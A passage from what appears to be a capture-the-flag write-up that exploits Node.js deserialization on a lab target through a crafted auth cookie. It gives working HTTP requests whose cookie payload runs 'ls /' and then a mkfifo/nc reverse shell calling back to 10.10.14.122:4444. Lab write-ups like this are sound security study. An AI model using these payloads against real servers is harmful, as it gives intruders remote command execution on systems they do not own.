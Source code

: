 ```js
})

app.listen(5000)
```

With this, I was able to build a working payload. It turned out the semicolon was causing the issue.

```http
GET / HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cookie: auth={"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}()"}
```
When I sent it, I got a response and saw the output from `ls` in my terminal.

```bash
$ node server.js
bin
boot
dev
etc
home
...
```

Next, I worked on building a payload to get a reverse shell. Once I got it working locally, I sent it to the server.

```http
GET / HTTP/1.1
Host: target.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: auth={"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('mkfifo /tmp/kirxhbg && nc 10.10.14.122 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1 && rm /tmp/kirxhbg', function(error, stdout, stderr) { console.log(stderr) })}()"}
Upgrade-Insecure-Requests: 1
If-None-Match: W/"763-yBLqx1Bg/Trp0SZ2cyMSGFoH5nU"
```
